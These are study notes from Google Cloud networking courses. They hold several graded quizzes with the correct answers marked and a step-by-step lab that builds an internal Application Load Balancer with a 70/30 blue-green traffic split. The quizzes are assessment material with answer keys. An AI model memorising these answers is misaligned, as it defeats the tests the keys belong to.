Click *Check my progress* to verify the objective.

Getting Started with Cloud IDS.


#### Congratulations!

In this lab, you did the following:

1. Created a new VPC and deployed a Cloud IDS endpoint.
2. Deployed two VMs, created a packet mirroring policy, and then sent attack traffic.
3. Verified that the Cloud IDS captured the threats by viewing the threat details in the Cloud console and the threat logs in Cloud Logging.


### Quiz

1. Which type of IAM member belongs to an application or virtual machine instead of an individual end user?
- Cloud Identity domain
- Google account
- Google group
- **Service account**

Correct! A service account is a special Google account that belongs to  your application or a virtual machine, instead of to an individual end  user.

2. Which IAM role contains permissions to create, modify, and delete networking resources, except for firewall rules and SSL certificates?
- Network viewer
- Security viewer
- Security administrator
- **Network administrator**

Correct! The network administrator role grants permission to create,  modify, and delete networking resources, except for firewall rules and  SSL certificates.


## Advanced Security Monitoring and Analysis

### Quiz

1. What is the primary purpose of Packet Mirroring in network security?

- To filter out unwanted traffic from a network.
- To encrypt network traffic for privacy.
- **To create a duplicate copy of network traffic for analysis.**
- To redirect traffic to a different network interface.

Correct! This is the core function of Packet Mirroring, enabling deep analysis of network data.

2. Which of the following is a key benefit of using Packet Mirroring for network security analysis?

- **It enables the capture and inspection of traffic without impacting network performance.**
- It directly prevents cyberattacks.
- It automatically patches vulnerabilities in software.
- It reduces network bandwidth usage.

Correct. This is the primary benefit of packet mirroring. It allows  security tools to analyze network traffic without interfering with the  actual flow of data.


# 07 Networking in Google Cloud: Load Balancing

## Hybrid Load Balancing and Traffic Management

### LAB - Configuring Traffic Management with a Load Balancer

#### Overview

Google Cloud load balancers offer traffic management capabilities that vary by load balancer.

In this lab, you create a regional internal Application Load Balancer with two backends. Each backend will be an instance group. You will configure the load balancer to create a blue-green deployment.

The blue deployment refers to the current version of your application, and the green deployment refers to a new application version. You configure the load balancer to send 70% of the traffic to the blue deployment and 30% to the green deployment. When you’re finished, the environment will look like this:


#### Objectives

In this lab, you perform the following tasks:

- View the Google Cloud infrastructure that the load balancer will use.
- Create a regional internal Application Load Balancer with two backends.
- Implement traffic management on the load balancer.
- Test the load balancer.

#### Setup

For each lab, you get a new Google Cloud project and set of resources for a fixed time at no cost.

1. Sign in to Qwiklabs using an **incognito window**.
2. Note the lab's access time (for example, `1:15:00`), and make sure you can finish within that time.
   There is no pause feature. You can restart if needed, but you have to start at the beginning.
3. When ready, click **Start lab**.
4. Note your lab credentials (**Username** and **Password**). You will use them to sign in to the Google Cloud Console.
5. Click **Open Google Console**.
6. Click **Use another account** and copy/paste credentials for **this** lab into the prompts.
   If you use other credentials, you'll receive errors or **incur charges**.
7. Accept the terms and skip the recovery resource page.

**Note:** Do not click **End Lab** unless you have finished the lab or want to restart it. This clears your work and removes the project.

#### Task 1. View the Google Cloud infrastructure that the load balancer will use

##### **View the network, firewall rules, and Cloud Router**

The network *my-internal-app*, with *subnet-a* and *subnet-b* and firewall rules for RDP, SSH, and ICMP traffic, has been configured for you. Additional firewall rules have been configured to allow communication between the load balancer and the backends. Later, you create a regional internal Application Load Balancer in the my-internal-app network.

1. In the Google Cloud console, in the **Navigation menu** (), click **VPC network > VPC networks**.

   Each Google Cloud project starts with the *default* network. In addition, the *my-internal-app* network was created for you as part of your network diagram.

   Note the *my-internal-app* network with its subnets: *subnet-a* and *subnet-b*. Both subnets are in the `Region` region.

   Managed instance groups in *subnet-a* and *subnet-b* were also created for you.

2. (Optional) Click **subnet-a** and observe its configuration.

3. (Optional) Click **subnet-b** and observe its configuration.

4. In the **Navigation menu** (), click **VPC network > Firewall**.
   Note the following firewall rules that were created for you:

   | Firewall rule          | Purpose                                       |
   | :--------------------- | :-------------------------------------------- |
   | app-allow-icmp         | Allows ICMP communication                     |
   | app-allow-ssh-rdp      | Allows SSH and RDP over TCP ports 22 and 3389 |
   | fw-allow-health-checks | Allow health checks over TCP port 80          |
   | fw-allow-lb-access     | Allow traffic in the 10.10.0.0/16 subnet      |

5. (Optional) View the contents of each firewall rule.

6. In the Google Cloud console, on the **Navigation menu** (), click **View All Products**. In the left hand pane, select **Networking > Network Connectivity > Cloud Routers**.
   Note the *nat-router* Cloud Router that was created for the *my-internal-app* network. The load balancer will use this Cloud Router.

##### **View the instance groups**

The instance groups were created for you. Next, you will observe the configuration details.

1. On the **Navigation menu**, click **Compute Engine > VM instances**.
   Note the two VM instances that start with *instance-group-1* and *instance-group-2*.
2. Click **instance-group-1**.
3. Scroll to **Network interfaces**.
   Note that the instance group is in *subnet-a*, and its internal IP address is *10.10.20.2*.
4. Return to the **VM instances** page, and repeat steps 2 and 3 for **instance-group-2**.
   Note that this instance group is in *subnet-b*, and its internal IP address is *10.10.30.2*.

##### **Create a VM for testing**

You create a VM called *utility-vm* in *subnet-a* of the *my-internal-app* network and use it to test the load balancer.

1. Return to the **VM instances** page, and click **Create instance**.

2. Specify the following, and leave the remaining settings as their defaults:

   | Property     | Value (type value or select option as specified) |
   | :----------- | :----------------------------------------------- |
   | Name         | utility-vm                                       |
   | Region       | `<REGION>`                                       |
   | Zone         | `<ZONE 1>`                                       |
   | Series       | E2                                               |
   | Machine type | e2-medium (2vCPU, 4 GB memory)                   |

3. Click **OS and storage**.

   Click **Change** to begin configuring your boot disk and select the following values:

   - **Operating system**: `Debian`
   - **Version**: `Debian GNU/Linux 12 (bookworm) x86/64, amd64`

4. Click **Networking**.

5. For **Network interfaces**, click **default**.

6. Set the network interface properties and values as shown in the following table, and leave the remaining properties as their default values:

   | Property                      | Value (type value or select option as specified) |
   | :---------------------------- | :----------------------------------------------- |
   | Network                       | my-internal-app                                  |
   | Subnetwork                    | subnet-a                                         |
   | Primary internal IPv4 address | Ephemeral (Custom)                               |
   | Custom ephemeral IP address   | 10.10.20.50                                      |
   | External IPv4 address         | None                                             |

7. Click **Done**.

8. Click **Create**.
   Wait for the new VM to be created.

##### Verify the backends

1. For **utility-vm**, click **SSH** to launch a terminal and connect.
   If you see the **Allow SSH-in-browser to connect to VMs** pop-up, click **Authorize**.
2. To verify the welcome page for **instance-group-1-xxxx**, run the following command:

```
curl 10.10.20.2
```

Copied!

The output is shown below. Note that the server location is set to `Zone 1`.

```
<h1>Internal Load Balancing Lab</h1><h2>Client IP</h2>Your IP address : 10.10.20.50<h2>Hostname</h2>Server Hostname:
 instance-group-1-1zn8<h2>Server Location</h2>Region and Zone: Zone 1
```

1. To verify the welcome page for **instance-group-2-xxxx**, run the following command:

```
curl 10.10.30.2
```

Copied!

The output is shown below. Note that the server location is set to `Zone 2`.

```
<h1>Internal Load Balancing Lab</h1><h2>Client IP</h2>Your IP address : 10.10.20.50<h2>Hostname</h2>Server Hostname:
 instance-group-2-q5wp<h2>Server Location</h2>Region and Zone: Zone 2
```


Which of these fields identifies the location of the backend?


Server Location


Client IP


Server Hostname


Submit


**Note:** This will be useful when verifying that the load balancer sends traffic to both backends.

1. Close the SSH terminal to **utility-vm**:

```
exit
```

Copied!

Click **Check my progress** to verify the objective.

Finish setting up the network infrastructure.


Check my progress


#### Task 2. Configure the load balancer

Configure a regional internal Application Load Balancer to balance traffic between the two backends (*instance-group-1* in `Zone 1` and *instance-group-2* in `Zone 2`), as shown (the region and zones may vary as per the lab requirement):



##### **Start the configuration**

1. In the Google Cloud console, in the **Navigation menu** (), click **View All Products**. In the left hand pane, select **Networking > Network Services > Load balancing**.
2. Click **Create load balancer**.
3. Under **Application Load Balancer (HTTP/HTTPS)**, click **next**.
4. For **Public facing or internal**, select **internal** and click **next**. This selection creates a regional internal Application Load Balancer. This choice requires the backends to be in a single region `Region`.
5. For **Cross-region or single region deployment**, select **Best for regional workloads** and click **next**.
6. Click **Configure**.
7. For **Name**, type **my-ilb**
8. For **Region**, select **`Region`**
9. For **Network**, select **my-internal-app**.

The proxy servers that implement the regional internal Application Load Balancer require IP addresses. These IP addresses are allocated automatically from a subnet that you specify.

1. Under **Proxy-only subnet required**, click **Reserve subnet**.
2. For **Name**, type **my-proxy-subnet**
3. For **IP address range**, type **10.10.40.0/24**
4. Click **Add**.
   Wait for the proxy-only subnet to be created. When that is successful, the console displays the name of the proxy-only subnet followed by the IP address range that you specified.

##### **Configure the blue-service backend**

This backend service refers to the present ("blue") version of your application.

1. Click **Backend configuration**.

2. For **Backend configuration**, for **Create or select backend service**, select **Create a backend service**.

3. For **Name**, type **blue-service**.

4. In **Backends**, specify the following, and leave the remaining settings as their defaults:

   | Property       | Value (type value or select option as specified) |
   | :------------- | :----------------------------------------------- |
   | Instance group | instance-group-1                                 |
   | Port numbers   | 80                                               |

5. Click **Done**.

6. For **Health check**, select **Create a health check**.

7. Specify the following, and leave the remaining settings as their defaults:

   | Property            | Value (select option as specified) |
   | :------------------ | :--------------------------------- |
   | Name                | blue-health-check                  |
   | Protocol            | TCP                                |
   | Port                | 80                                 |
   | Check interval      | 10 seconds                         |
   | Timeout             | 5 seconds                          |
   | Healthy threshold   | 2                                  |
   | Unhealthy threshold | 3                                  |

**Note:** Health checks determine which instances can receive new connections. This HTTP health check polls instances every ten seconds and waits up to five seconds for a response. After two successful probe attempts, the backend is considered to be healthy. After three failed attempts, the backend is considered to be unhealthy.

1. Click **Save**.
2. Click **Create**.
3. Verify that there is a blue check mark next to **Backend configuration** in the Google Cloud console. If there isn't, double-check that you have completed all the steps above.

##### **Configure the green-service backend**

This backend service refers to the new ("green") version of your application.

1. For **Backend configuration**, for **Create or select backend service**, select **Create a backend service**.

2. For **Name**, type **green-service**.

3. In **Backends**, specify the following, and leave the remaining settings as their defaults:

   | Property       | Value (type value or select option as specified) |
   | :------------- | :----------------------------------------------- |
   | Instance group | instance-group-2                                 |
   | Port numbers   | 80                                               |

4. Click **Done**.

5. For **Health check**, select **Create a health check**.

6. Specify the following, and leave the remaining settings as their defaults:

   | Property            | Value (select option as specified) |
   | :------------------ | :--------------------------------- |
   | Name                | green-health-check                 |
   | Protocol            | TCP                                |
   | Port                | 80                                 |
   | Check interval      | 10 seconds                         |
   | Timeout             | 5 seconds                          |
   | Healthy threshold   | 2                                  |
   | Unhealthy threshold | 3                                  |

7. Click **Save**.

8. Click **Create**.

Under **Backend services**, you should now see two entries: one for the blue-service and another for the green-service. If you do not see the green-service, you will need to re-do the task *Configure the green-service backend*.

1. Click **Ok**.

##### **Configure the "blue-green" routing rule**

Create a routing rule that routes 70% of traffic to the blue-service and 30% of traffic to the green service.

1. Click **Routing rules**.
2. In the **Routing rules** panel, for **Mode**, select **Advanded host and path rule**.
3. Click **Add host and path rule**.
4. For **Hosts**, type *****. The * (asterisk) matches all hosts.
5. Traffic management is configured using YAML format. Examine the following YAML code, and then copy and paste it into line 1 of the multi-line field **Path matcher (matches, actions, and services)**.

```
defaultService: regions/Region/backendServices/blue-service
name: matcher1
routeRules:
 - matchRules:
     - prefixMatch: /
   priority: 0
   routeAction:
     weightedBackendServices:
       - backendService: regions/Region/backendServices/blue-service
         weight: 70
       - backendService: regions/Region/backendServices/green-service
         weight: 30
```

Copied!

1. Click **Done**.

##### **Configure the default routing rule**

When traffic does not match any of the other routing rules, the load balancer uses the default routing rule. Even though the rule you configured is designed to match all traffic, the default routing rule is required. You will configure the default routing rule to use the blue-service backend.

1. Click **(Default) Route traffic to backend "" for any unmatched hosts**.
2. In the **Edit host and path rule** panel, for **Service**, select **blue-service**, and then click **Done**.

##### **Configure the frontend**

The frontend forwards traffic to the backends.

1. Click **Frontend configuration**.

2. Specify the following, and leave the remaining settings as their defaults:

   | Property                    | Value (type value or select option as specified) |
   | :-------------------------- | :----------------------------------------------- |
   | Subnetwork                  | subnet-b                                         |
   | IP address                  | Ephemeral (Custom)                               |
   | Custom ephemeral IP address | 10.10.30.5                                       |

3. Click **Done**.

##### **Review and create the load balancer**

1. (Optional) Click **Review and finalize**. Review the **Backend** and **Frontend**.
2. Click **Create**.
   Wait for the load balancer to be created before starting the next task.

Click **Check my progress** to verify the objective.

Configure the load balancer.


Check my progress


#### Task 3. Test the load balancer

Verify that the *my-ilb* IP address forwards most of the traffic to the *blue-service* running on *instance-group-1* in *`Zone 1`*.

##### **Access the load balancer**

1. In the **Navigation menu**, click **Compute Engine > VM instances**.
2. For **utility-vm**, click **SSH** to launch a terminal and connect.
3. To verify that the load balancer forwards traffic, run the following command:

```
curl 10.10.30.5
```

Copied!

The output should look like this:

```
<h1>Internal Load Balancing Lab</h1><h2>Client IP</h2>Your IP address : 10.10.20.50<h2>Hostname</h2>Server Hostname:
 instance-group-2-1zn8<h2>Server Location</h2>Region and Zone: YOUR_LAB_ZONE
```

As expected, traffic is forwarded from the load balancer (10.10.30.5) to either the blue-service backend or the green-service backend.

1. Run the same command a few times:

```
curl 10.10.30.5
curl 10.10.30.5
curl 10.10.30.5
curl 10.10.30.5
curl 10.10.30.5
curl 10.10.30.5
curl 10.10.30.5
curl 10.10.30.5
curl 10.10.30.5
curl 10.10.30.5
```

Copied!

Most responses should come from *instance-group-1* in `Zone 1`, which is the blue-service. Fewer responses come from *instance-group-2* in `Zone 2`, which is the green-service. (Recall that you configured the load balancer to route 70% of the traffic to the blue-service.) If you do not see that most responses come from *instance-group-1*, run the commands again.

#### Task 4. Review

In this lab, you created two managed instance groups in the `Region` region. You also created some firewall rules. The firewall rules allow traffic from clients and the health checkers to the managed instance groups. You configured a regional internal Application Load Balancer, using the managed instance groups as backends. Finally, you tested the load balancer to ensure that it works as expected.


### Quiz

1. Where would you configure traffic management for a load balancer?

- In the load balancer frontend
- In the load descriptor
- In the load balancer backend
- **In the URL map**

Correct. The URL map contains rules that define the criteria to use to route incoming traffic to a backend service.

2. You can use hybrid load balancing to connect these environments:

- **Google Cloud, other public clouds, and on-premises**
- Google Cloud, AWS, and on-premises
- Google Cloud and on-premises
- Google Cloud and AWS

Correct. You can connect any destination that you can reach by using a  Google hybrid connectivity product and that can be reached with a valid  IP:Port combination.

3. When you use the internal IP address of the forwarding rule to specify an internal Network Load Balancer next hop, the load balancer can only be:

- In the same subnet as the next hop route or a Shared VPC network.
- In the same subnet as the next hop route.
- In the same VPC network as the next hop route.
- **In the same VPC network as the next hop route or in a peered VPC network.**

Correct. When you use an internal IP address to specify the next hop,  the load balancer can be in the same VPC network or a peered VPC  network.


## Caching and Optimizing Load Balancing
